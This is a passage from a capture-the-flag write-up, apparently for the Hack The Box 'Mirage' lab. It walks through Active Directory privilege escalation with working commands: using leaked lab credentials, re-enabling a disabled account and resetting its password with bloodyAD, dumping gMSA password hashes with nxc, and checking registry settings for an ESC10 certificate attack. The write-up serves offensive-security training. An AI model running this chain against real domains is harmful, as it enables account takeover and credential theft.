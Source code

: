 **Discovered credentials:**
- **Username**: mark.bbond
- **Password**: 1day@atime

### Reactivating javier.mmarshall Account
Using mark.bbond's IT_SUPPORT privileges to reactivate the disabled javier.mmarshall account:

```powershell
# Enable the disabled account and clone logon hours
$Password = ConvertTo-SecureString "1day@atime" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("MIRAGE\mark.bbond", $Password)
Enable-ADAccount -Identity javier.mmarshall -Cred $Cred
$logonhours = Get-ADUser mark.bbond -Properties LogonHours | select-object -expand logonhours
[byte[]]$hours1 = $logonhours
Set-ADUser -Identity javier.mmarshall -Cred $Cred -Replace @{logonhours = $hours1}
```

### Password Reset via BloodyAD
```bash
# Reset javier.mmarshall's password
bloodyAD --kerberos -u "mark.bbond" -p '1day@atime' -d "mirage.htb" --host "dc01.mirage.htb" set password "javier.mmarshall" 'Password123.'

# Generate TGT for javier.mmarshall
nxc smb dc01.mirage.htb -u javier.mmarshall -p 'Password123.' -k --generate-tgt javier.mmarshall
export KRB5CCNAME=javier.mmarshall.ccache
```

## Privilege Escalation Phase 2: GMSA Password Extraction

### Extracting GMSA Credentials
With javier.mmarshall's ReadGMSAPassword privileges:

```bash
# Dump GMSA passwords
nxc ldap dc01.mirage.htb -u javier.mmarshall -p 'Password123.' -k --gmsa
```

**Result**: Obtained NTLM hash for Mirage-Service$ machine account

## Privilege Escalation Phase 3: ESC10 Certificate Attack

### Understanding ESC10 Context
ESC10 exploits weak certificate mapping in Active Directory Certificate Services. The attack is possible when:

1. `StrongCertificateBindingEnforcement` is set to audit mode (value = 1)
2. Weak TLS configurations allow certificate manipulation

### Certificate Binding Enforcement Check
```powershell
# Check certificate binding enforcement level
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" | Select-Object StrongCertificateBindingEnforcement

# Check SChannel configuration for ESC10 vulnerabilities
reg query 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'
```
